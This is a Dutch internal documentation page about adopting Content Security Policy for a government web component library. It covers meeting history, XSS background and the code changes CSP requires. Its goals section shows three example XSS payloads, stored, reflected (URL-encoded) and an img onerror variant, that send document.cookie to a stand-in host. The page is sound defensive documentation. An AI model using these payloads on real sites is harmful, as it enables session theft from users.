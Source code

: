 
<Meta title="CSP/Content Security Protocol"/>

# Content Security Protocol

## Inleiding

Tot op heden (begin 2023) wordt er door UIG niets gespecifieerd rond [CSP](https://content-security-policy.com/).
Volgende zaken zijn al gebeurd m.b.t. CSP:

### januari 2023

In het kader van ticket [UIG-2207](https://www.milieuinfo.be/jira/browse/UIG-2207) zijn er beperkt zaken bekeken,
er is nog geen actie ondernomen (zie ook de opmerkingen in het ticket).

### maart 2023

Het volgende is gemeld op de [TAW van 02/03/2023](https://www.milieuinfo.be/confluence/display/AEO/2023-03-02%3A%3A+Verslag)
door Christophe De Blende en besproken:

> Ik heb zo het gevoel dat de urgentie van CSP onderschat wordt. Hier een paar statistieken van de verschillende
aanvallen die op de RP innet gecapteerd worden: <a href="top-threats-20221013.pdf" target="_blank">23/10/2022</a>, <a href="top-threats-20230213.pdf" target="_blank">23/02/2023</a> en <a href="top-threats-20230227.pdf" target="_blank">27/02/2023</a>.
Van belang, al wat via SSL gebeurt zien we zelf niet. Dus er zijn veel exploits die nog niet gedetecteerd worden
omwille van de huidige firewall / ssl terminatie setup.<br/>
Er is wel een tijdje een firewall loop toegevoegd geweest om log4j shell exploit te kunnen firefighten en deze
statistieken zijn ook meegenomen. Om aan te geven dat je met een factor 100 mag vermenigvuldigen wat je nu ziet
in de dagdagelijkse statistieken.

Hierbij zijn er volgende vragen / bemerkingen:
- hoe verhouden die statistieken zich tot CSP: welke zullen er verminderen / verdwijnen als CSP actief wordt ?
- het 'algemeen activeren van CSP' op de reverse-proxy (wat Lode al eens geprobeerd zou hebben - op ontwikkel?) is
  niet zinvol, veel toepassingen zullen dan niet meer werken
- CSP activatie zou applicatie per applicatie moeten doorgevoerd worden, omdat dit een grote doorlooptijd
  (maanden / jaren) zal hebben zouden statistieken per sub-domein uitgesplitst moeten worden om impact te kunnen zien


## CSP en XSS

Eén van de belangrijkste zaken waartegen je je kan beschermen met CSP is tegen Cross Side Scripting (XSS). Een uitleg
van wat XSS is vind je in het artikel [cross site scripting xss](https://auth0.com/blog/cross-site-scripting-xss), hoe
je je dan met CSP daartegen kan beschermen staat uitgelegd in
[defending against xss with csp](https://auth0.com/blog/defending-against-xss-with-csp). Voor toepassingen die een SPA
opzet volgen is er het specifiekere artikel [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).


## Doelen

Het hoofddoel om CSP te activeren is om te zorgen dat een webtoepassing enkel eigen, vertrouwde code bevat en uitvoert.
Enkel de eigen geschreven / voorziene javascript, html en css mag getoond en uitgevoerd worden. Wijzigen, tonen of
uitvoeren van 'andere' code wordt afgeblokt. Voorbeelden hiervan zijn:

### Stored XSS tegenhouden

In input velden zou malicious code ingevoerd kunnen worden conform:

```
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>
```

Als deze code dan (denk bvb. in het geval van een blog) door een andere gebruiker geopend en uitgevoerd wordt kunnen er
ongewenst gegevens gecapteerd worden.

### Reflected XSS tegenhouden

Links (aangeboden via een href of verborgen via een shortening service) die refereren naar een toepassing kunnen
scripts bevatten:

```
http://localhost:3000/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A4000%3Fdata%3D%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E
```

### DOM based XSS tegenhouden

In de DOM kan (door via een malicious website omgeleid te zijn) geldige, maar kwaadwillige html gestoken zijn.

```
<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)/>
```

### CSS XSS tegenhouden

Zie het filmpje en de presentatie op [xss no the other s](https://mikewest.org/2013/09/xss-no-the-other-s-cssconfeu-2013).


## CSP activeren

Wat er praktisch dient te gebeuren naar deploy en configuratie toe om CSP te activeren voor de complexere
toepassingen wordt beschreven in [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).

Alvorens dit echter kan zullen er code wijzigingen moeten gebeuren, denk hierbij aan:

- inline javascript mag niet - alle javascript moet in aparte .js bestanden gestoken worden<br/>
  -> de overgrote meerderheid van onze webcomponenten heeft geen inline javascript<br/>
  -> toepassing per toepassing moet bekeken worden om dat eventueel weg te werken
- inline styling mag niet<br/>
  -> zowel in de webcomponenten als in toepassingen zal dit voorkomen, veel meer dan inline javascript
- voor externe componenten moet geëvalueerd worden hoe we ze CSP compliant gewijs kunnen gebruiken, 2 belangrijke zijn
  [TinyMCE](https://www.tiny.cloud/docs/tinymce/6/tinymce-and-csp/) en de
  [global header en footer](https://www.vlaanderen.be/digitaal-vlaanderen/onze-oplossingen/mijn-burgerprofiel/global-header-en-footer)
  van Digitaal Vlaanderen
